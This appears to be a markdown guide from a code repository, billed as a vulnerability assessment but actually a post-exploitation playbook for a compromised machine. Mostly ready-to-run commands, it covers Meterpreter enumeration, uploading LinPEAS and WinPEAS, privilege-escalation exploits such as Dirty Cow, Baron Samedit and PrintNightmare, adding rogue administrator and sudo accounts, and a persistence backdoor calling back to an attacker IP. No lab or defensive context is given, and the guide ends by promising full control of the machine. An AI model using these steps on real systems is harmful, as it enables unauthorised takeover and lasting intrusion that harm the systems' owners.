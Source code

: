 ```markdown
# Comprehensive Guide: Vulnerability Assessment on a Compromised Machine Using Metasploit and Meterpreter

This detailed guide outlines the steps to conduct a complete vulnerability assessment on a compromised machine using Metasploit and Meterpreter. It includes additional tools, workflows, and privilege escalation techniques to achieve root or system-level access.

---

## 1. Initial Access with Meterpreter

After successfully compromising the target machine and establishing an active Meterpreter session:

1. **Verify the current user:**
   ```bash
   meterpreter > getuid
   ```
   - If the user is not root (Linux) or Administrator/System (Windows), privilege escalation will be required.

2. **Gather system information:**
   ```bash
   meterpreter > sysinfo
   ```
   - This command provides details such as the operating system, architecture, and version, essential for identifying vulnerabilities and local exploits.

---

## 2. System Enumeration

Before exploiting, collect as much information as possible to identify vulnerabilities and misconfigurations.

### 2.1 Using Metasploit Modules

1. **Suggest Local Exploits:** Use the `local_exploit_suggester` module to analyze the system and recommend potential exploits for privilege escalation:
   ```bash
   use post/multi/recon/local_exploit_suggester
   set SESSION <session_id>
   run
   ```
   - The module evaluates kernel versions, patches, and configurations to suggest applicable exploits.

2. **System Information Gathering:**

   - **Linux:**
     ```bash
     use post/linux/gather/enum_system
     set SESSION <session_id>
     run
     ```

   - **Windows:**
     ```bash
     use post/windows/gather/enum_system
     set SESSION <session_id>
     run
     ```

   - These modules extract information such as:
     - User accounts and permissions.
     - Running services.
     - Security configurations.

### 2.2 External Tools (LinPEAS/WinPEAS)

For a more detailed enumeration:

#### LinPEAS (Linux)

A script that detects insecure configurations, SUID/SGID files, vulnerable services, and kernel versions.

**Usage:**

1. Upload the script to the target machine:
   ```bash
   meterpreter > upload /path/to/linpeas.sh /tmp/linpeas.sh
   ```

2. Open a shell session:
   ```bash
   meterpreter > shell
   ```

3. Make the script executable:
   ```bash
   chmod +x /tmp/linpeas.sh
   ```

4. Execute the script:
   ```bash
   /tmp/linpeas.sh
   ```

#### WinPEAS (Windows)

A tool that identifies weak registry configurations, vulnerable services, and sensitive files.

**Usage:**

1. Upload the tool to the target system:
   ```bash
   meterpreter > upload /path/to/winPEAS.exe C:\Temp\winPEAS.exe
   ```

2. Execute it directly:
   ```bash
   meterpreter > execute -f C:\Temp\winPEAS.exe
   ```

---

## 3. Privilege Escalation

After identifying vulnerabilities, use local exploits to escalate privileges to root or SYSTEM.

### 3.1 Linux

1. **Kernel Exploits:**
   - Example: **Dirty Cow (CVE-2016-5195):**
     ```bash
     use exploit/linux/local/dirty_cow
     set SESSION <session_id>
     run
     ```
   - For outdated kernels, use exploits like:
     ```bash
     use exploit/linux/local/sudo_baron_samedit
     set SESSION <session_id>
     run
     ```

2. **Weak Permissions:**
   - Exploit misconfigured SUID files or other insecure configurations detected by LinPEAS.

### 3.2 Windows

1. **Exploitation:**
   - Examples of vulnerabilities:
     - **PrintNightmare (Spooler Service):**
       ```bash
       use exploit/windows/local/printnightmare
       set SESSION <session_id>
       set RHOSTS <target_ip>
       run
       ```
     - **JuicyPotato (COM Permissions):** Target privilege escalation in COM-based services.

2. **External Tools:**
   - **PowerUp:** A PowerShell script for privilege escalation:
     ```powershell
     powershell -exec bypass -file C:\Temp\PowerUp.ps1
     ```

---

## 4. Establishing Persistence

After escalating privileges, ensure continuous access:

1. **Create a New User:**
   - **Linux:**
     ```bash
     useradd -m -s /bin/bash new_user
     passwd new_user
     usermod -aG sudo new_user
     ```
   - **Windows:**
     ```cmd
     net user new_user password /add
     net localgroup administrators new_user /add
     ```

2. **Install a Backdoor:**
   ```bash
   meterpreter > run persistence -U -i 5 -p <port> -r <attacker_ip>
   ```

---

## Summary

By following this approach:

1. Gather detailed system information using Metasploit modules, LinPEAS, or WinPEAS.
2. Identify exploitable vulnerabilities such as outdated kernels, SUID/SGID files, or misconfigurations.
3. Use local exploits or weak permissions for privilege escalation.
4. Establish persistence to maintain future access.

This combination of tools and techniques ensures full control over the compromised machine while meeting operational goals effectively.
```